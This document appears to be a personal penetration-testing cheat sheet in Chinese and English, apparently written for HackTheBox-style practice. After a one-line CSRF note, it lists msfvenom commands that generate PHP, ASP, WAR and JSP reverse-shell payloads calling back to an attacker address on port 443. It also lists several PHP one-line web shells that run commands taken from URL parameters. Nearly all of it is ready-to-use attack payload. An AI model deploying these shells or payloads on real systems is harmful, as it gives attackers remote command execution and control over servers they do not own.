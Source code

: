 ## CSRF
+ csrf submit, change password; htb-secnotes.
+ 

# Webshell

kali webshell path
/usr/share/webshells
其他参考
http://www.acunetix.com/blog/articles/keeping-web-shells-undercover-an-introduction-to-web-shells-part-3/ 
http://www.binarytides.com/web-shells-tutorial/


## Platform Independent

```
#php, linux、windows都可用
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.1.101 LPORT=443 -f raw > shell.php

#Asp
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=443 -f asp > shell.asp

#War
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.101 LPORT=443 -f war > shell.war

#Jsp
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.101 LPORT=443 -f raw > shell.jsp

```

## Php

```
#执行单个命令
<?php system("whoami"); ?>

#url参数输入命令
<?php system($_GET['cmd']); ?>

#passthru函数木马
<?php passthru($_GET['cmd']); ?>

#shell_exec，通过echo输出结果
<?php echo shell_exec("whoami");?>

#Exec() does not output the result without echo, and only output the last line. So not very useful!
<?php echo exec("whoami");?>

#Instead to this if you can. It will return the output as an array, and then print it all.
<?php exec("ls -la",$array); print_r($array); ?>

#preg_replace(). This is a cool trick
<?php preg_replace('/.*/e', 'system("whoami");', ''); ?>

#Using backticks
<?php $output = `whoami`; echo "<pre>$output</pre>"; ?>

#Using backticks
<?php echo `whoami`; ?>

#访问
```